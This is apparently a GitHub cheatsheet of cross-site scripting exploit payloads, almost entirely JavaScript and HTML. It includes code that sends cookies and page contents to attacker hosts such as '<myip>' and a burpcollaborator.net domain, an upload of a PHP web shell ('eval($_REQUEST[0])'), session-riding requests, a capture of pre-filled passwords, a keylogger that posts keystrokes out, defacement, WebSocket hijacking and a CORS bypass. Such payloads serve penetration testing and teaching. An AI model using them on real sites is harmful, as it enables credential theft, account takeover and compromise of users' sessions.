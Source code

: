 # XSS Exploit Cheatsheet

=====

## Send something back or CSRF

GET

```javascript
var uri = "http://<myip>/";
var query = "?message=" + encodeURIComponent("<some-data>");
xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (xhr.readyState == XMLHttpRequest.DONE) {
		// do something after sent
	}
}
xhr.open("GET", uri + query, true);
xhr.send();
```

POST (application/json)

```javascript
var req = new XMLHttpRequest();
req.open("POST", "http://<target>", true); 
req.setRequestHeader("Content-type", "application/json");
req.send(JSON.stringify({
    data: "data"
}));
```

POST (multipart-formdata)

```javascript
var code = "<? eval($_REQUEST[0]);";
var ctype = "text/plain";
var fname = "g.php";
var form = new FormData();
form.append("newAttachment", new Blob([code],  { type: ctype }), fname);

var uri = "http://<target>/";
xhr = new XMLHttpRequest();
xhr.open("POST", uri, true);
xhr.send(form);
```

Submit form

```html
<form id="f" action="http://<target>" method="POST" enctype="multipart/form-data">
<input type="password" name="password">
<input type="password" name="password2">
<input name="website" value="asdf onfocus=location=`http://ttqkxnrpzv248m4hy0oagrvxcoie63.burpcollaborator.net`+document.cookie autofocus">
<input type="file" name="avatar">
</form>
<script>
i=document.createElement('input');
i.name="submit";
f.append(i);
f.submit();
</script>
```

## Session Riding

**XHR** api
```javascript
## send cookie with XHR
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open("GET", "http://<target>/somepage", true);
req.withCredentials = true;
req.send();

function reqListener() {
   // do something after sent
   // for example. pass response to attacker's server
   location='/log?key='+this.responseText;
};
```

**Fetch** api
```javascript
var href = "http://<target>/somepage";
fetch(href, {
    "credentials": 'include',
    "method": "get",
})
.then((response) => {
    return response.text();
})
.then( text => {
	// post something back
	fetch("http://<myip>/record", {
		method: "POST",
		headers: {
            "content-Type": "application/json"
        },
        body: JSON.stringify({
            url: href,
            content: text
        })
	})
})
```

## Defacement

```javascript
html_element = document.getElementsByTagName('html')[0];
html_element.innerHTML = '<!DOCTYPE html><html lang="en"> ... </html>';
```

## Fetch auth pages

Based on `<iframe>`, we can delay N seconds and grab all `<a>` to fetch pages. See [fetchAuth.js](utils/fetchAuth.js).

## Capture pre-filled password

```javascript
var source = 'https://myip'
Array.from(document.forms).forEach( form => {
    Array.from(form.elements).forEach(elem => {
        if(elem.type === "password") {
            fetch(source + "/prefill", {
                method: "POST",
                headers: {
                    "content-Type": "application/json"
                },
                body: JSON.stringify({
                    name: elem.name,
                    value: elem.value
                })
            });
        }
    });
});
```

## KeyLogger

```javascript
var source = 'https://myip';
var recordObj = {};
document.onkeypress = function (e) {
    var current = document.activeElement;
    recordObj[current.name] = recordObj[current.name] || "";
    recordObj[current.name] += e.key;

    
    var req = new XMLHttpRequest();
    req.open("POST",source + "/keylog", true); 				// ADD URL HERE!
    req.setRequestHeader("Content-type", "application/json");
    req.send(JSON.stringify({
        data: recordObj[current.name],
        tagname: current.name,
        tagval: current.value
    }));
    
}
```

## API Server on Attacker side

use `Flask-Cors` to serve resource. See [apiServ.py](utils/apiServ.py)

## Cross-Site WebSocket Hijacking

Requirement: Websocket HTTP request has no CSRF protection.

`wss://  with  https://` and `ws://  with  http://`

```javascript
websocket = new WebSocket('wss://<target>')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
    // initialize the socket
    websocket.send("xxx");
}
function handleReply(event) {
    // hijack socket message here
    // no-cors mimic the <img>'s request
    fetch('https://<myip/?'+event.data, {mode: 'no-cors'})
}
```

## bypass `Access-Control-Allow-Origin: null`

Requirement: X-FRAME-OPTIONS not set 

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
    // do something
</script>
"></iframe>
```


## Reference

1. [PortSwigger CORS](https://portswigger.net/web-security/cors)
